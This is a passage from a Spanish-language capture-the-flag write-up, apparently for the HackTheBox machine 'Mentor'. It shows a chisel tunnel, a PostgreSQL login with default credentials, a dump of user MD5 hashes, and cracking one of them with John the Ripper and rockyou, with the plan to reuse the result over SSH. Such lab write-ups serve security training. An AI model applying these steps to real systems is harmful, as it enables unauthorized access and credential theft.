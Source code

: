 ```bash
2023/01/16 18:51:49 client: Connected (Latency 53.818892ms)
```

Una vez tengamos la conexion establecida con **chisel**, ejecutamos el siguiente comando en nustra maquina para establecer la conexion a la base de datos.

```bash
❯ psql -h localhost -U postgres -d mentorquotes_db
Contraseña para usuario postgres: postgres 
psql (13.9 (Debian 13.9-0+deb11u1), servidor 13.7 (Debian 13.7-1.pgdg110+1))
Digite «help» para obtener ayuda.

mentorquotes_db=#
```
Enumeramos la tablas y damos con la tabla users.

```bash
mentorquotes_db=# \d
             Listado de relaciones
 Esquema |    Nombre     |   Tipo    |  Dueño   
---------+---------------+-----------+----------
 public  | cmd_exec      | tabla     | postgres
 public  | quotes        | tabla     | postgres
 public  | quotes_id_seq | secuencia | postgres
 public  | users         | tabla     | postgres
 public  | users_id_seq  | secuencia | postgres
(5 filas)
```
Listamos la tabla y tenemos un par de hash, que guardaremos en nuestra maquina para intetar hacer fuerza bruta.

```bash
mentorquotes_db=# select * from users;
 id |         email          |  username   |             password             
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
(2 filas)
```
```bash
❯ cat hashs
─────────────────────────────────────────────
       │ File: hashs
─────────────────────────────────────────────
       │ james:7ccdcd8c05b59add9c198d492b36a503
       │ service_acc:53f22d0dfa10dce7e29cd31f4f953fd8
```
Crackeamo con **john** lo hahs que tenemos.
 ```bash
 john -w:/usr/share/wordlists/rockyou.txt hashs --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Press 'q' or Ctrl-C to abort, almost any other key for status
123meunomeeivani (service_acc)
1g 0:00:00:00 DONE (2023-01-16 20:06) 1.818g/s 26078Kp/s 26078Kc/s 50304KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
 ```
 Y lo tenemos, usuario y contraseña, probaremos por ssh si la clave es buena.

